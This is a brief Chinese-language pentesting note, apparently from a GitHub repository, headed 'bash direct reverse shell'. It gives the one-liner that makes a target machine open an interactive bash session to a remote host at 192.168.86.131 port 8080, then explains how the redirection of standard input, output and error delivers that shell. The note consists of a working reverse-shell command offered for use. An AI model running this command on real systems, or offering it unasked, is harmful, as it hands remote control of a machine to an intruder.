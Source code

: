 bash直接反弹
靶机
```
bash -i >& /dev/tcp/192.168.86.131/8080 0>&1
````
0是标准输入，1为标准输出，2是标准错误信息输出。
这个命令的意思是：bash产生了一个交互环境与本地主机主动发起与目标主机8080端口建立的连接（即TCP 8080 会话连接）相结合，然后在重定向个tcp 8080会话连接，最后将用户键盘输入与用户标准输出相结合再次重定向给一个标准的输出，即得到一个bash 反弹环境。

